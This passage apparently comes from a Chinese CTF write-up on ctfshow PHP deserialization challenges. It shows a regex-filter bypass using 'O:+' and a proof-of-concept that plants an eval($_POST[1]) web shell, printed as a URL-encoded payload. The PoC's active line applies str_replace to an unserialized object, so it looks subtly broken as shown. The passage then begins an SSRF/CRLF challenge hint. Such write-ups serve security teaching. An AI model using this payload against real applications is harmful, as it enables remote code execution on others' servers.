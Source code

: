 ```php

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    if(!preg_match('/[oc]:\d+:/i', $_COOKIE['user'])){
        $user = unserialize($_COOKIE['user']);
    }
    $user->login($username,$password);
}
```

正则`preg_match('/[oc]:\d+:/i', $_COOKIE['user'])`，匹配对象o或者数字c
也就是 `o|c:数字`

绕过方法也很简单 ，参考[php反序列unserialize的一个小特性 – phpbug](https://www.phpbug.cn/archives/32.html)
按文中所说使用 `o:+数字`即可，如`O:3`->`o:+3`

poc:

```php
<?php

class ctfShowUser{
    public $class;
    public function __construct(){
        $this->class=new backDoor();
    }
}

class backDoor{
    public $code='eval($_POST[1]);';
}

$a = new ctfShowUser();
$a = str_replace('O:', 'O:+', $a);
# $a = preg_replace('/([oc]\:)(\d+)/i', '$1+$2', serialize($a));

echo urlencode($a);

# O%3A%2B11%3A%22ctfShowUser%22%3A1%3A%7Bs%3A5%3A%22class%22%3BO%3A%2B8%3A%22backDoor%22%3A1%3A%7Bs%3A4%3A%22code%22%3Bs%3A16%3A%22eval%28%24_POST%5B1%5D%29%3B%22%3B%7D%7D
```

![](https://i.loli.net/2021/10/17/1y8bmk9BfIdVUKC.png)



## 259 SSRF+SoapClient->__call()+CRLF

> hint：flag.php部分源码
>
> ```php
> $xff = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
> array_pop($xff);
> $ip = array_pop($xff);
> 
> 
> if($ip!=='127.0.0.1'){
> 	die('error');
> }else{
> 	$token = $_POST['token'];
> 	if($token=='ctfshow'){
> 		file_put_contents('flag.txt',$flag);
> 	}
> }